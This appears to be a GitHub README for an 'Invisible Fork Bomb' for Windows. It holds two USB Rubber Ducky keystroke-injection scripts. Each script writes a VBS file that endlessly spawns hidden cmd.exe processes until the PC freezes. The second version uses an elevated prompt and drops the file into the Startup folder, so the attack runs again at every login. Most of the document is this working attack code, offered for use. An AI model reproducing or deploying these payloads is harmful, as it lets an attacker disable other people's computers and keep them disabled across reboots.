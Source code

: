 # Invisible Fork Bomb [Windows]
**V. 2.0:** The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

**V. 3.0:** The same, but it sets the vbs file into the startup.

**Original repository:** <a href="https://github.com/BlueArduino20/Invisible_fork_bomb">https://github.com/BlueArduino20/Invisible_fork_bomb</a>

**Author:** BlueArduino20

<h2>Code for Ducky [2.0]</h2>

<pre><code>DELAY 1000
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
ENTER
</pre></code>

<h2>Code for Ducky [3.0]</h2>
[Warning] That version sets the vbs file into the startup.

<pre><code>DELAY 1000
CTRL ESC
DELAY 500
STRING cmd
CTRL SHIFT ENTER
DELAY 400
ALT y
DELAY 500
STRING copy con "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\FB.vbs"
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start FB.vbs && exit
ENTER
</pre></code>